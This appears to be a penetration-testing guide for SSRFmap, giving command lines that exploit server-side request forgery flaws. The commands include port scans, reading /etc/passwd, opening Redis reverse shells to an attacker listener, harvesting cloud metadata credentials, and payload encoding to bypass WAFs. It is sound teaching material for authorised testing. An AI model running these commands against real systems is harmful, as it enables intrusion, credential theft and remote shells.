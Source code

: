 ```yaml
---
icon: people-pulling
---
```


# SSRFmap

## The SSRFmap Masterclass: Professional SSRF Detection & Exploitation

SSRFmap is a powerful, modular framework for automating the detection and exploitation of Server-Side Request Forgery (SSRF) vulnerabilities. It supports a wide range of exploitation modules, advanced payloads, and integration with Burp Suite, making it essential for professional web application penetration testers.

***

### I. Environment Setup: Dynamic Variables

Export variables for flexible, repeatable workflows and organized output:

```bash
export REQUEST_FILE="burp_request.txt"   # Burp Suite request file
export PARAM="url"                       # Parameter to fuzz
export MODULE="portscan"                 # SSRFmap module (see below)
export OUTPUT_DIR="ssrfmap-results"
export COOKIE="SESSION=abcd1234; other=xyz"
export USER_AGENT="Mozilla/5.0 (SSRFmap)"
export PROXY="<http://127.0.0.1:8080>"
export LHOST="10.10.14.5"                # For reverse shell modules
export LPORT=4444                         # For reverse shell modules
export LEVEL=3                            # Payload encoding/bypass level

```

***

### II. Core Capabilities & Workflow

* **Automated SSRF Fuzzing:** Finds and exploits SSRF injection points in GET, POST, and header parameters.
* **Modular Exploitation:** Supports modules for port scanning, network scanning, file read, RCE (FastCGI, Redis, MySQL, etc.), cloud metadata access, and more.\[3]\[4]\[5]
* **Burp Suite Integration:** Uses Burp request files for real-world, authenticated, and complex requests.
* **Advanced Payloads & Bypass:** Encodes payloads and uses multiple techniques to bypass filters and WAFs.
* **Reverse Shells & Connect-Back:** Supports modules for triggering reverse shells and listening for callbacks.
* **Custom Headers & SSL:** Customizes User-Agent, cookies, and supports HTTPS endpoints.

***

### III. Professional Usage Examples

#### 1. Basic SSRF Fuzzing (GET/POST/Header)

```bash
python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m "$MODULE"

```

#### 2. Use Proxy (e.g., Burp Suite)

```bash
python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m "$MODULE" --proxy "$PROXY"

```

#### 3. Custom User-Agent and Cookies

```bash
python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m "$MODULE" --uagent "$USER_AGENT" --cookie "$COOKIE"

```

#### 4. Enable SSL for HTTPS Endpoints

```bash
python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m "$MODULE" --ssl

```

#### 5. Increase Payload Encoding/Bypass Level

```bash
python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m "$MODULE" --level $LEVEL

```

#### 6. Trigger Reverse Shell (e.g., Redis RCE)

```bash
python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m redis --lhost $LHOST --lport $LPORT -l $LPORT

```

#### 7. Read Internal Files (e.g., /etc/passwd)

```bash
python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m readfiles --rfiles /etc/passwd

```

#### 8. Portscan Internal Network

```bash
python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m portscan

```

#### 9. Network Ping Sweep

```bash
python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m networkscan

```

#### 10. Cloud Metadata Access (AWS, GCP, etc.)

```bash
python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m aws

```

***

### IV. Advanced Techniques & Scenarios

* **Header Injection:** Fuzz custom headers (e.g., `X-Forwarded-For`, `Host`) by specifying the parameter name.
* **WAF/Filter Bypass:** Use `-level` to encode payloads and try alternate IP formats (e.g., `127.0.0.1`, `[::1]`, `0x7f000001`).
* **Reverse Shells:** Use modules like `redis`, `fastcgi`, `mysql`, and specify `-lhost`/`-lport` for connect-back payloads.
* **Custom Data Injection:** Use the `custom` module to send arbitrary data to internal services (e.g., netcat listeners).
* **Cloud Metadata Extraction:** Use modules for AWS, GCP, Alibaba, DigitalOcean to access instance metadata and credentials.
* **Batch Scanning:** Script SSRFmap to iterate over multiple request files or parameters for large-scale assessments.

***

### V. Real-World Workflow Example

1.  **Export Variables:**

    ```bash
    export REQUEST_FILE="burp_request.txt"
    export PARAM="url"
    export MODULE="portscan"
    export OUTPUT_DIR="ssrfmap_htb"
    export LHOST="10.10.14.5"
    export LPORT=4444

    ```
2.  **Scan for SSRF and Internal Port Exposure:**

    ```bash
    python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m portscan --output "$OUTPUT_DIR/portscan.txt"

    ```
3.  **Read Sensitive Internal Files:**

    ```bash
    python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m readfiles --rfiles /etc/passwd --output "$OUTPUT_DIR/passwd.txt"

    ```
4.  **Trigger Reverse Shell via Redis:**

    ```bash
    python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m redis --lhost $LHOST --lport $LPORT -l $LPORT --output "$OUTPUT_DIR/redis_shell.txt"

    ```
5.  **Cloud Metadata Extraction:**

    ```bash
    python3 ssrfmap.py -r "$REQUEST_FILE" -p "$PARAM" -m aws --output "$OUTPUT_DIR/aws_metadata.txt"

    ```
6. **Document Findings:**
   * Save all output and exploitation steps for reporting and future reference.

***

### VI. Pro Tips & Best Practices

* **Always use Burp Suite request files** for real-world, authenticated, and complex requests.
* **Start with low-level payloads** and escalate encoding/bypass levels as needed.
* **Test all injection points:** GET, POST, headers, cookies, and custom fields.
* **Leverage modules for deep exploitation:** Portscan, file read, RCE, cloud metadata, and more.
* **Document all findings and save outputs** for reporting and compliance.
* **Scan only with explicit authorization**—never test targets without permission.
* **Combine SSRFmap with manual testing and other tools** (e.g., Burp Suite, custom scripts) for comprehensive SSRF coverage.

***

This professional SSRFmap guide equips you for advanced, modular SSRF detection, exploitation, and reporting in real-world web application security assessments.

